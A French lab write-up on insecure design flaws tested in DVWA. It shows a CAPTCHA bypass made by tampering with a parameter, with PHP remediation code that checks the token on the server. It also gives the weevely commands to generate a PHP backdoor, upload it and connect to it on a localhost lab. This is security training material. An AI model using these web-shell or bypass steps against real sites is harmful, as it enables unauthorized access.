




# Insecure Design

## Présentation
Une faille d’Insecure Design survient quand une protection n’a pas été pensée dès la conception : la logique métier ou l’architecture laisse des possibilités d’abus (on fait confiance au client, pas au serveur).  
Ici j’ai testé deux cas en labo : bypass de CAPTCHA (DVWA) et IDOR / modification du secret d’un autre utilisateur (bWAPP).

## Test 1 — Bypass du CAPTCHA (DVWA)

L'objectif va être de vérifier si le changement de mot de passe peut être effectué sans résoudre le captcha.


### Pratique 

- Requête initiale :  
    
  (formulaire + param step=2 et champs mot de passe)

- Requête modifiée via Burp (on force le step et on soumet) :  
  

- Résultat : mot de passe modifié sans validation du captcha :  
  

### Analyse
- La logique se fie à des paramètres envoyés côté client (step) et/ou n’effectue pas de vérification serveur du token captcha.
- C’est une erreur de conception : le serveur doit valider le captcha et maintenir l’état côté serveur.

### Remédiation
1. Vérifier le token captcha côté serveur (ex. API reCAPTCHA) avant toute action sensible.  
2. Stocker en session un drapeau captcha_verified uniquement après vérification réussie.  
3. Ajouter un CSRF token sur le formulaire et invalider captcha_verified après usage. Un CSRF token est un jeton unique généré par le serveur et inclus dans les formulaires ou requêtes pour vérifier que l’action provient bien de l’utilisateur légitime, empêchant ainsi les attaques de type Cross-Site Request Forgery (CSRF).
4. Journaliser et appliquer un rate-limit sur l’endpoint.

```php
// Vérif token captcha côté serveur
session_start();
$token = $_POST['g-recaptcha-response'] ?? '';
if (empty($token)) { http_response_code(400); exit; }

$secret = 'TA_CLE_SECRETE';
$resp = json_decode(file_get_contents(
  "https://www.google.com/recaptcha/api/siteverify?secret=".urlencode($secret)."&response=".urlencode($token)
), true);

if (empty($resp['success'])) { http_response_code(403); echo "Captcha invalide"; exit; }

$_SESSION['captcha_verified'] = true;
```

La correction permet lors de l'envoie de la requête de changement de mot de passe sans token ou avec token invalide d'envoyer une réponse 403 (accès interdit) et de vérifier que l’action ne passe que si captcha_verified en session est présent et valide ainsi que le CSRF soit bon.

## Test 2 — File Upload (DVWA)

L'objectif va être d'upload une backdoor sur le site.

Pour cela nous allons utiliser weevely et la partie File Upload du site DVWA.

### Pratique

Il faut commencer par générer la backdoor avec la commande ```weevely generate backdoor backdoor.php```

Ensuite il faut l'upload sur le site :


Enfin la connexion à la backdoor peut être effectué avec la commande 
```weevely http://127.0.0.1:4280/dvwa/hackable/uploads/backdoor.php backdoor```


## Conclusion


